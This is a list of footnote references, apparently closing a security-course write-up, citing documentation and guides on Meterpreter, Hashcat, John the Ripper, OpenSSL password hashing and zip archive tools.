[^4]: Stack Overflow, Simple file server to serve current directory [closed], https://stackoverflow.com/questions/15328623/simple-file-server-to-serve-current-directory
[^5]: Rapid7, Use Meterpreter Locally Without an Exploit, https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/
[^6]: OpenSSL, openssl-passwd, https://docs.openssl.org/master/man1/openssl-passwd/#options  
[^7]: Manpagez, 7zip man sivut, https://www.manpagez.com/man/1/to-7zip/
[^8]: Tero Karvinen, Cracking Passwords with Hashcat, https://terokarvinen.com/2022/cracking-passwords-with-hashcat/
[^9]: Tero Karvinen, Crack File Password With John, https://terokarvinen.com/2023/crack-file-password-with-john/
[^10]: Cloudkul, How to Create md5 hash of your Password in Bash Script?, https://cloudkul.com/knowledgebase/create-md5-hash-password-bash-script/
[^11]: die.net, zip(1) Linux Man Page, https://linux.die.net/man/1/zip
